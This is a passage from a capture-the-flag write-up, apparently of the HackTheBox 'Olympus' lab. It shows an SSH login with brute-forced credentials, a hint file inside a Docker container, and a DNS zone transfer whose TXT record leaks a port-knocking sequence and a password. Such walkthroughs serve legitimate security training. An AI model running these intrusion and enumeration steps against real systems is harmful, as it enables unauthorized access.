 We successfully brute-forced the SSH login credentials. Next we login and gain user-access to the system.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh icarus@10.129.124.136 -p 2222
icarus@10.129.124.136's password: 
Last login: Sun Aug 17 08:59:45 2025 from 10.10.14.66
icarus@620b296204a3:~$ 
```

Judging by the hostname `620b296204a3`, it's fairly simple to understand that we are logged in a Docker container. Inside the current directory `/home/icarus`, the file `help_of_the_gods.txt` is found.

```bash
icarus@620b296204a3:~$ cat help_of_the_gods.txt 

Athena goddess will guide you through the dark...

Way to Rhodes...
ctfolympus.htb
```

The file specifies another domain `ctfolympus.htb`. We attempt to make a DNS zone transfer using the **AXFR** (Asynchronous Full Zone Transfer) protocol.

```bash
┌──(kali㉿kali)-[~]
└─$ dig axfr @10.129.124.136 ctfolympus.htb

; <<>> DiG 9.20.11-4-Debian <<>> axfr @10.129.124.136 ctfolympus.htb
; (1 server found)
;; global options: +cmd
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.         86400   IN      TXT     "prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.         86400   IN      A       192.168.0.120
ctfolympus.htb.         86400   IN      NS      ns1.ctfolympus.htb.
ctfolympus.htb.         86400   IN      NS      ns2.ctfolympus.htb.
ctfolympus.htb.         86400   IN      MX      10 mail.ctfolympus.htb.
crete.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
hades.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
mail.ctfolympus.htb.    86400   IN      A       192.168.0.120
ns1.ctfolympus.htb.     86400   IN      A       192.168.0.120
ns2.ctfolympus.htb.     86400   IN      A       192.168.0.120
rhodes.ctfolympus.htb.  86400   IN      CNAME   ctfolympus.htb.
RhodesColossus.ctfolympus.htb. 86400 IN TXT     "Here lies the great Colossus of Rhodes"
www.ctfolympus.htb.     86400   IN      CNAME   ctfolympus.htb.
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
;; Query time: 46 msec
;; SERVER: 10.129.124.136#53(10.129.124.136) (TCP)
;; WHEN: Sun Aug 17 05:10:26 EDT 2025
;; XFR size: 15 records (messages 1, bytes 475)
```
